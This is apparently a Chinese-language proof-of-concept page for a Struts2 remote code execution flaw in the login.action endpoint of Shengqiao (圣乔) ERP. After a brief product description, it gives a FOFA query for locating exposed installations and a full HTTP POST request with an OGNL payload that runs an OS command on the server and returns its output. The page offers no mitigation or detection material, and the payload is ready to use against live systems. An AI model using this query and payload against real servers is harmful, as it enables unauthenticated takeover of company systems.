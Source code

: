# 圣乔ERP系统login.action存在Struts2远程代码执行漏洞

圣乔ERP系统是杭州圣乔科技有限公司开发的一款企业级管理软件，旨在为企业提供一套全面、集成化的管理解决方案，帮助企业实现资源的优化配置和高效利用。该系统集成了财务、人力资源、生产、销售、供应链等多个业务模块，实现了企业内外部信息的无缝连接和实时共享。适用于各种规模的企业，特别是需要实现资源优化配置、提高运营效率和管理水平的企业。它可以帮助企业解决传统管理方式中存在的信息孤岛、数据重复输入、信息传递滞后等问题，提高企业的整体竞争力。由于圣乔ERP系统使用Struts2开发框架组件，存在历史Struts2远程代码执行漏洞，未经身份验证的远程攻击者可利用此漏洞执行任意系统命令，写入后门文件，获取服务器权限。

## fofa

```javascript
title="圣乔ERP系统"
```

## poc

```javascript
POST /erp/login.action HTTP/1.1
Host: 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded

redirect:%24%7B%23resp%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%27whoami%27%7D%29%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23dis%3Dnew+java.io.DataInputStream%28%23b%29%2C%23buf%3Dnew+byte%5B20000%5D%2C%23dis.read%28%23buf%29%2C%23msg%3Dnew+java.lang.String%28%23buf%29%2C%23dis.close%28%29%2C%23resp.getWriter%28%29.println%28%23msg.trim%28%29%29%2C%23resp.getWriter%28%29.flush%28%29%2C%23resp.getWriter%28%29.close%28%29%7D
```

![image-20241128093556493](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280935554.png)